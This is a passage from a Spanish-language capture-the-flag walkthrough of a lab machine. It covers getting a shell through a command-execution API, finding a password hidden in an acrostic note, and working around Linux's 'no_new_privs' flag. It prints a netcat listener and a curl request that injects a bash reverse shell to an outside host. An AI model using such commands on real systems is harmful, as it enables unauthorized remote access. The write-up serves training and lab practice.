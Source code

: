 nc -lvnp 8888
Copiar
y en otra shell enviamos la siguiente petición.

curl -X POST http://127.0.0.1:3001/system -H "Content-Type: application/json" -d '{"command": "bash", "args": ["-c", "/bin/bash -i >& /dev/tcp/192.168.1.181/8888 0>&1"]}'
Copiar
Conseguimos una consola con el usuario agent.

agent shell

Podemos leer la flag de user.txt.

cat /home/agent/user.txt
Copiar
Escalada de privilegios#
Hacemos el tratamiento de la TTY para poder trabajar de forma más cómoda con nuestra shell del usuario agent.

Junto a la flag encontramos un archivo llamado nota.txt en el home del usuario.

agent@cursodex:~$ cat nota.txt 
Cada día aparecen nuevas amenazas digitales, y aunque las tecnologías avanzan, también lo hacen los métodos de los atacantes.
Investigar sus técnicas es clave para entender cómo se infiltran en sistemas aparentemente seguros.
Bloquear accesos sospechosos y reforzar contraseñas evita que se conviertan en puertas abiertas.
En la mayoría de los casos, el error humano sigue siendo el eslabón más débil de la cadena de seguridad.
Recordemos que el desconocimiento nunca fue una defensa válida.

Proteger la información no se trata solo de instalar un antivirus, sino de asumir la seguridad como un hábito.
Observar patrones anómalos, reportar incidentes y aprender constantemente son prácticas que hacen la diferencia.
Las empresas deben fomentar la capacitación, porque un clic impulsivo puede desatar consecuencias graves.
Los usuarios, finalmente, son la primera línea de defensa, y su compromiso puede fortalecer o derribar cualquier estrategia.
Organizar la prevención hoy es garantizar la tranquilidad del mañana.
Copiar
Es una nota muy seria sobre ciberseguridad, pero si nos fijamos bien, la primera letra de cada frase forma la palabra CIBERPOLLO, que resulta ser la contraseña del usuario agent.

Pero si intentamos ejecutar sudo -l o su agent, nos aparecerá el siguiente mensaje:

$ sudo -l
sudo: The "no new privileges" flag is set, which prevents sudo from running as root.
sudo: If sudo is running in a container, you may need to adjust the container configuration to disable the flag.
Copiar
Este mensaje significa que el proceso con el que hemos obtenido la shell tiene activado el flag “no_new_privs” (sin nuevos privilegios). Esta es una característica del kernel de Linux que impide que el proceso y sus hijos puedan adquirir privilegios adicionales, incluso si se intenta usar sudo o setuid para elevar privilegios.

agent@cursodex:~/api$ cat /proc/self/status | grep NoNewPrivs
NoNewPrivs:     1
Copiar
Pero si recordamos tenemos la shell que obtuvimos con www-data, utilizamos la contraseña CIBERPOLLO para obtener privilegios como el usuario agent en un proceso hijo de apache que no tiene activado “no_new_privs”.
